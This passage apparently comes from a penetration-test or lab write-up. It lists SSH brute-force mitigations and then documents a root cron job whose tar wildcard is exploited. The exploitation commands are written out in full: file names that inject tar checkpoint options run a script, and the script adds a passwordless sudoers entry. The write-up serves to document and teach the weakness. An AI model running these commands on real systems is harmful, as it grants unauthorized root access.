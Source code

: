 1. **Detection**:
    - Check SSH logs.
    - Monitor connections with netstat.
2. **Prevention**:
    - Block SSH after 3 failed attempts.
    - Use stronger passwords (numbers, special characters).
    - Implement two-factor authentication (2FA).

---

### 3.6 Cron Job Vulnerability

#### 3.6.1 Details

- **Vulnerability**: tar command in cron jobs with root privileges.
- **Impact**: root privilege escalation.
- Cron job:
    
    text
    
    
    `*/5 * * * * root cd /home/john/ && tar -zcf /home-john-backup.tgz *`
    
- **Exploitation**:
    - Created files to inject a script (shell.sh):
        
        bash
        
        
        `touch -- "--checkpoint=1" touch -- "--checkpoint-action=exec=sh shell.sh" echo "john ALL=(ALL) NOPASSWD:ALL" > shell.sh chmod +x shell.sh`
        
    - After <5 minutes, john gained root privileges via sudo su.
    -
    ![Pasted image 20250403122047](Pasted%20image%2020250403122047.png)
    
	![Pasted image 20250403122100](Pasted%20image%2020250403122100.png)
